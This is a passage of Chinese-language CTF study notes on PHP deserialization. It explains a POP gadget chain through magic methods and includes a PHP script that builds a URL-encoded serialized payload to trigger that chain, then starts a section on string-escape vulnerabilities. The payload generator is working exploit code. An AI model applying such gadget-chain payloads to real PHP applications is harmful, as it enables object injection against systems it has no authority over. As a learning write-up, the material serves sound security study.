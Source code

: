 ```
Pop链：
boy::__destruct()-->girl::__call()-->helper::__isset()-->boy::__toString()-->helper::__get()
找到可以利用的方法boy类的__destruct()，它调用了不可访问的方法make_friends(),触发girl类的__call()方法，isset()触发了helper类中的__isset()方法，当name是一个类对象时，触发boy类中的__tostring()方法，return $this->like->string; 访问或读取了不可私有的属性，触发helper类的__get方法 （链可以看懂，脚本不会写）
```

脚本

```php
<?php
class boy {
    public $like;
}
class girl {
    public $boyname;
}
class helper {
    public $name;
    private $string;
    public function __construct() {
        $this->string = array("string"=>[new love_story(),"love"]);
    }
}
class love_story {
    public $fall_in_love = array(0=>'girl_and_boy');
}
$boy= new boy();
$boy1 = new boy();
$girl = new girl();
$help= new helper();
$help1 = new helper();
$boy->like = $girl;
$girl->boyname = $help;
$help->name = $boy1;
$boy1->like=$help1;
$n = null;
$a = array($boy,$n);
echo urlencode(serialize($a));
?>
```

## PHP反序列化字符串逃逸

### 原理

```
当开发者使用先将对象序列化，然后将对象中的字符进行过滤，最后再进行反序列化。这个时候就有可能会产生PHP反序列化字符逃逸的漏洞。
```

### 字符串增多逃逸
